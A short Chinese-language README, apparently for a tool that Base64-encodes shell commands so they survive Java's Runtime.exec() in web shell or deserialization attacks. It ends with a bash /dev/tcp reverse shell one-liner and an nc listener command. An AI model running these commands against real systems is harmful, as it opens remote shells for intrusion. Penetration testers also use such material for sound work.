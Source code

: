 # java.lang.Runtime.exec-Payload

### Base64编码shell命令
当使用web shell、反序列化攻击或通过其他向量，通过Runtime.getRuntime().exec()执行命令的有效负载会失败。

这是因为重定向和管道字符的使用方式在正在启动的进程上下文中没有意义。例如，在shell中执行ls>dir_listing应该将当前目录的列表输出到名为dir_listing的文件中。但是在exec()函数的上下文中，该命令将被解释为获取>和dir_listing目录的列表。

有时，包含空格的参数会被StringTokenizer类打断，该类按空格分隔命令字符串。类似ls“My Directory”的内容将被解释为ls“My”“Directory”。

在Base64编码的帮助下，下面的转换器可以帮助减少这些问题。它可以通过调用Bash或PowerShell来创建管道和重定向，还可以确保参数中没有空格。

### 反弹shell命令

反弹shell命令：
	
	bash -i >& /dev/tcp/ip/port 0>&1
	
nc监听端口：

	nc -lvp 777


